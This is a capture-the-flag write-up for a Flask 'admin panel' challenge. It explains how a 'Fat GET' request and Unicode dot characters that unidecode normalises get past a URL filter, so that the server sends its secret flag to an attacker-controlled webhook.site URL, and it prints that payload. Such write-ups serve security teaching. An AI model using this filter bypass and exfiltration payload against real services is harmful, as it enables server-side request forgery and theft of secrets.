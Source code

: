## Description

Here is my admin panel where I can make secret requests to my internal services and no one else should be able to do that.
But some hackers managed to do it, help me find the issue.
I have also made some changes to the code but I'm not sure if this will fix it.

**source code available**

## Solution

upon visiting the site, we get this page :

![mainpage](images/mainpage.png)

let's check the source code and see what happens when we submit something :

```python
from flask import Flask, request, jsonify, render_template
import requests
from unidecode import unidecode
app = Flask(__name__)
FLAG="shellmates{fakeflag}"

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/operation', methods=['GET',
                                # 'POST' I hope this will fix the issue
                                ])
def print_body_param():
    body_param = request.get_json()
    url = body_param.get('url', None)
    if url:
        # no points and no % => no external urls
        if ("%" in url) or ("." in url):
            return jsonify({"msg":"only requests to localhost are allowed"}),401
        # cleaning the url to store it later
        url=unidecode(url)
        url=url.replace(" ","")
        # sending request to local services
        try:
            res=requests.get(url+f"?secret={FLAG}")
            return jsonify({"msg":"request sent succesfully"}),200
        except:
            return jsonify({"msg":"soomething went wrong"}),500
    else:
        return jsonify({"msg":"no url was provided"}),400

if __name__ == '__main__':
    app.run(debug=False)
```

so when we submit a url, it will be sent in a parameter called `url`, then it checks if there is a `.` or `%`, and if so we get a 401 response.

if our URL is clean it proceeds to `unidecode` it and then send a request to it with the flag in the `secret` parameter.

so we need to setup a server and bypass that check to get a request to our server with the flag.

we can set a public server using `https://webhook.site/`, we can view all interactions with our given URL, but as all urls, it contains the dot characters which is filtered.

first let's intercept the submission request with burpsuite, and when we send it we get :

![denied](images/denied.png)

that's logical cause the server is set to only receive GET requests on this endpoint, but with GET we can't send json data in the URL, and here comes an interesting technique known as `Fat GET`, which is sending POST data in the body but with a GET request, so let's change the method from POST to GET and send it again :

![success](images/success.png)

that worked, now the only problem is how to bypass the filtered dot in our URL.

notice that the URL is getting `unidecoded`, this means we can specify unicode characters in the parameter, and with this we can actually bypass the filter by specifying other unicode characters that represent dots, i asked ChatGPT to give me some of the dots unicode :

![gpt](gpt.png)

cool, now if we replace the dot in our URL, we get something like this :

```
https://webhook\u2024site/270d21e8-85f2-4646-8060-25af2d23ec20
```

let's try submitting it :

![burp](images/burp.png)

we see that the request sent succesfully, let's check our web-hook :

![flag](images/flag.png)

- flag : `shellmates{GETT1nG_FAT_w1Th_UN1C0DE_inj3CtiON}`

